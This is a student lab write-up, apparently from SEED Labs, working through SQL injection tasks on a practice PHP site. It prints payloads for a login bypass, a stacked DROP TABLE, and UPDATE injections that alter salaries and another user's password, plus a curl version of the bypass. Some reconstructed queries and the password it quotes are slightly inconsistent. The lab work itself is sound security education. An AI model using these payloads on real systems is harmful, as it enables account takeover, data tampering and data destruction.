# SQL Injection
## Task 1: Get Familiar with SQL Statements

As instructed in this task, we firstly opened the shell using the command `docksh`, passing it the value we obtained using `dockps`. Afterwards, we opened the MySQL container by using the command `mysql -u root -pdees`. Then, we opened the provided database, `sqllab_users`, by using the command `use sqllab_users;` inside the MySQL container.



By using the command `show tables`, we found the table `credential`, as expected.



In order to view the contents of this table, we used the following SQL query:

```sql
select * from credential;
```
Which gave us profile information for all users. 



Because we only wanted Alice's profile information, all we had to do was to change the query and so we got the profile information for Alice.

```sql
select * from credential where name = "Alice";
```



## Task 2: SQL Injection Attack on SELECT Statement

To get started with this task, we found it especially important to look at the provided code snippet:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
    FROM credential
    WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";

$result = $conn -> query($sql);
```

This SQL query makes it so, if there is no verification of the user input, one could make an SQL injection attack. We will exploit this to complete our task. We will also use it as a reference to make the attack.

### Task 2.1: SQL Injection Attack from webpage

We were tasked with logging in as an administrator. The only information we were given was the account's username, which was 'admin'.

Since we did not know the password, we needed to input a username that would cause the password condition in the SQL query to be ignored. As such, our payload had to:
* Have an apostrophe, so as to close the string where `$input_uname` is inserted.
* Have a hashtag in order to comment the rest of the query.

The payload we decided to use was the following:

```
admin' #
```

**Note:** The <u>semicolon</u> which terminates the SQL statement is optional. That is why our payload works even though we commented the rest of the query. However, if we were to include it, it would still perform the attack as expected.

We input it on the "Username" text field, which made the server execute the query below:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
FROM credential
WHERE name= ’admin’ --and Password=’$hashed_pwd’
```

After pressing the login button, we were redirected to the administration page shown below:



We usurped the administrator's account!

### Task 2.2: SQL injection from command line

Performing this attack from a command line is fairly similar to doing so in a webpage. Since the website gets our inputs to username and password, then using HTML POST with our arguments, we can simply create a link that has the same effect. Let's take a look at the example:

```sh
$ curl 'www.seed-server.com/unsafe_home.php?username=alice&Password=11'
```

We can simply modify the link above to have the arguments we passed in Task 2.1. Something to take in mind when creating this link is that we can not simply have specials characters, such as `#`, in the link. With this said, all we have to do is transform our `' #` into `%27%20%23`. With this said, we just have to run the following command to execute the attack:

```sh
$ curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23'
```



If we grab this HTML code and put it in a file, then loading it into the browser, we can more easily see the results of our attack.



### Task 2.3: Append a new SQL statement

In the website, we attempted to run 2 statements with a SQL injection attack by attempting to log in into the website with the username `admin'; DROP TABLE credential; #`, which should have dropped the table credential, removing the data. 

> In SQL, `DROP` statements are used to delete tables from the database.

However, this did not happen. Instead we were presented with an error message:



This is so because this website is protected from multiple SQL statements by using the PHP function `query` over `multi_query`. The latter allows for multiple queries to be ran on its parameter. The function `query`, however, prevents this behavior, by only allowing a single query to happen. 

So, for our attack to work, we had to replace the `query` method with `multi_query` in the website's source code. The problematic line was in the "unsafe_home.php" file, so we modified it like so:

```php
# before
# if (!$result = $conn->query($sql))

# after
$conn->multi_query($sql);
if (!$result = $conn->store_result()) {
    ...
}
```

Afterwards, we ran the following Docker commands to apply our changes:

```bash
dcdown # shut down the server
dcbuild # rebuild the server
dcup # start the server
```

When the server went up again, we input the payload below on the "Username" text field:

```
admin'; DROP TABLE credential; #
```

After pressing the login button, we stumbled upon a blank page with an error message at the top:


The fact that the table `credential` no longer existed meant the `DROP` statement worked. Thus, we successfully appended a statement!

**Note:** Since we deleted the table `credential`, we had to reset the database before proceeding with the tasks. To that end, we ran the command below:

```bash
$ sudo rm -rf mysql_data
```

## Task 3: SQL Injection Attack on UPDATE Statement

> In SQL, `UPDATE` statements are used to modify existing records in a table.

Our final tasks consisted in exploiting an SQL injection vulnerability present in the Edit Profile page. As its name suggests, this page contains a simple input form for altering the profile information of an account, as shown below:



The guide also discloses the code fragment that processes the user input. Once again, it contains an unsanitized database query:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
    nickname=’$input_nickname’,
    email=’$input_email’,
    address=’$input_address’,
    Password=’$hashed_pwd’,
    PhoneNumber=’$input_phonenumber’
    WHERE ID=$id;";
$conn->query($sql);
```

**Note:** To verify whether our attacks had been successful, we compared our results with the values we obtained when we hijacked the administrator's account. For reference, they can be found below:


### 3.1: Modifying our salary

Our next objective was to update our salary. That is, upon logging in to an account, we had to use the input form to alter its database entry.

To that end, we logged in to Alice's account by repeating the attack from [before](#task-21-sql-injection-attack-from-webpage), except instead of 'admin' we wrote 'alice' like so:

```
alice' #
```

Immediately after logging in, we were redirected to a page which contained Alice's profile information, including her salary: **20000**.



Now that we were familiar with the value we had to change, we navigated to the Edit Profile page. However, as seen above, there was no text field for altering the salary. Thankfully, the guide revealed that the salaries are stored in a column appropriately named "salary", so we had all the information we needed.

Considering that each value change in the query (i.e. `value=’$input_value’`) was in a separate line, our payload had to:
* Have an apostrophe, so as to close the string where `$input_value` is inserted.
* Modify the `salary` column (i.e. `salary=...`).
* Have an apostrophe before the salary value. This is a necessity considering we already closed the `$input_value` string, which causes its final apostrophe to become unpaired.

With that in mind, we chose the following payload:

```
, salary=1000000'
```

Since we input it in the "NickName" field, our payload made the server execute the following query:

```sql
UPDATE credential SET
    nickname='$input_nickname', salary='1000000'
    email='',
    address='',
    Password='',
    PhoneNumber=''
    WHERE ID=$id;
```

After submitting, we checked Alice's profile again.



And _voilá_, Alice's salary was now **1000000**. Just like that, she was 50x richer! No wonder computer scientists make so much money...

### 3.2: Modifying someone else's salary

Our next task was very similar to the previous one, except we had to change the salary of another user. In other words, whilst logged in as Alice, we had to modify someone else's databse entry.

We chose Bobby as our victim. The payload this time would have to:
* Have an apostrophe, so as to close the string where `$input_value` is inserted.
* Modify the `salary` column (i.e. `salary=...`).
* Have a `WHERE` clause that specifies the user whose entry we want to update.
* Have a hashtag in order to comment the rest of the query.

We assumed that Alice only knew Boby's username, so we used it in our `WHERE` clause. As such, our payload was the following:

```
', salary=1 WHERE name='Boby' #
```

Once again, we placed it in the "NickName" field, which made the server execute the following:

```sql
UPDATE credential SET
    nickname='', salary=1 WHERE name='Boby'
```

Upon submitting it, we logged in as an administrator to view Boby's information.


We did it! Our boss was now making less money than us.

### 3.3: Modifying someone else's password

Our final task was to change the password of another user. Yet again, Boby was our target, so our goal was to update his database entry while logged in as Alice.

Since we were dealing with passwords, this task was slightly different from the previous two. In fact, the guide stated that, unlike the values stored in the `salary` column, passwords were hashed before being inserted in the database. This meant that we could not simply write the password on our payload - we would have to write its **hash** instead. This rendered our previous payload useless, since we did not know which hashing algorithm was used for computing the password hashes.

Given this adversity, we recalled the code used by the server:

```php
$hashed_pwd = sha1($input_pwd); # the hashing occurs here
$sql = "UPDATE credential SET
    nickname=’$input_nickname’,
    email=’$input_email’,
    address=’$input_address’,
    Password=’$hashed_pwd’,
    PhoneNumber=’$input_phonenumber’
    WHERE ID=$id;";
$conn->query($sql);
```

By reanalyzing it, we realized that the input processed in the "Password" field was hashed before being inserted in the query. We also noticed that the password was only processed in the query before the phone number, which meant we input our payload in the "Phone Number" field without risking commenting the hashed password.

Our payload for this task needed to:
* Have an apostrophe, so as to close the string where `$input_value` is inserted.
* Have a `WHERE` clause that specifies the user whose entry we want to update.
* Have a hashtag in order to comment the rest of the query.

We opted to use the payload below:

```
' WHERE name = 'Boby' #
```

We placed it on the "Phone Number" field. After writing the new password, which we decided would be **'hahahaha123'**, on the "Password" field, we submitted the form. The query executed by the server was as follows:

```sql
UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='$hashed_pwd',
    PhoneNumber='' WHERE name='Boby' --WHERE ID=$id;
```

Weirdly enough, our payload triggered an error message from the server.


Still, we decided to test if our attack had worked by attempting to log in as Boby. To that end, we wrote 'Boby' and 'hahaha123' on the "Username" and "Password" fields, respectively.


**Note:** In order to show the password on the screenshot, we altered the `text-form` value of a `div` in the page's HTML code.

After pressing the login button, we were greeted with Boby's profile information.


We successfully changed Boby's password!
